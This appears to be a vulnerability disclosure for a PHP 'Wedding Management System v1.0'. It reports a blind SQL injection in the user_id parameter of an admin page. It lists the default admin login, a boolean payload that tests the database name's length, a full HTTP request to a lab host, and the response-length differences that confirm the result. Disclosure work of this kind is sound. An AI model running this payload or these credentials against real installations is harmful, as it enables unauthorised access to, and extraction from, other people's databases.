 # Wedding Management System v1.0 by codeastr.com has SQL injection

Author： k0xx

The password for the backend login account is: admin@mail.com/Password@123

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: /Wedding-Management/admin/client_manage_account_details.php?booking_id=31&user_id=

Vulnerability location: /Wedding-Management/admin/client_manage_account_details.php?booking_id=31&user_id=,user_id

[+] Payload: /Wedding-Management/admin/client_manage_account_details.php?booking_id=31&user_id=31%20and%20length(database())%20=9 // Leak place ---> user_id

Current database name: dbwedding,length is 9

```sql
GET /Wedding-Management/admin/client_manage_account_details.php?booking_id=31&user_id=31%20and%20length(database())%20=9 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

When length (database ()) = 8, Content-Length: 15416

![image](https://user-images.githubusercontent.com/54017627/167992433-5601929b-6895-4246-87ea-f854977dc06a.png)

![image](https://user-images.githubusercontent.com/54017627/167992386-4f3a240f-ec5c-4794-92c3-1fcaddc55277.png)

When length (database ()) = 9, Content-Length: 15233

![image](https://user-images.githubusercontent.com/54017627/167992413-9a6054ba-38d7-4d48-aeab-a2c218c890ae.png)


![image](https://user-images.githubusercontent.com/54017627/167992369-29977d4b-a079-4420-86a5-f607a8135386.png)

